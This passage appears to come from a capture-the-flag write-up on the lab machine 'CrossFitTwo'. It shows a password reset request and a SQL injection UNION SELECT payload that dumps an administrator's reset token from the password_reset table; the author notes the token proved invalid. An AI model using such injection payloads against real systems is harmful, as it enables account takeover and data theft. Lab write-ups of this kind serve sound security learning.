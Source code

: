 Sending a password reset request on `http://employees.crossfit.htb/password-reset.php` for the administrator's account with the email `david.palmer@crossfit.htb` and querying it again we can retrieve his token.

[![reset_david](/img/crossfittwo/reset_david.png)](/img/crossfittwo/reset_david.png)

```
sm1l3z >  union select null, group_concat(email, ' || ', token , ' || ', expires, '\n') from employees.password_reset
david.palmer@crossfit.htb || 1def636649113b1b1267ac53fff31043025d95c85a45af38546580d1952c67e8 || 2021-08-11 20:23:24
```

Passing this token as `token` parameter it turns out to be invalid sadly.

[![pw_reset_token](/img/crossfittwo/pw_reset_token.png)](/img/crossfittwo/pw_reset_token.png)
